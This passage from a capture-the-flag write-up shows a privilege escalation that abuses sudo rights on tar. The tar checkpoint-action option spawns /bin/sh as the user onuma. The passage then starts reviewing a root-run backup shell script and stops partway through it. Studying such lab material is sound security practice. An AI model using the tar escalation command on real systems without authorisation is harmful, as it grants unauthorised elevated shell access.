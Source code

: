 Searching for tar on [gtfobins](https://gtfobins.github.io/gtfobins/tar/) shows a command I could use

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![image](assets/85182247-1b1c6a00-b256-11ea-85d2-5071a8eb3169.png)

Since I could only run commands as user enuma, I had to add "-u onuma" to the comand

```
/usr/bin/sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

I now had shell as onuma

![image](assets/85182419-9b42cf80-b256-11ea-9167-431c4369a27f.png)

## Steps (root/system)

Reviewing system processes running as root I noticed an unusual process

![image](assets/85182570-14dabd80-b257-11ea-8e94-0f90d0a86a91.png)

Reviewing /var/sbin/backuperer shows that it's a shell script.

```
#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
```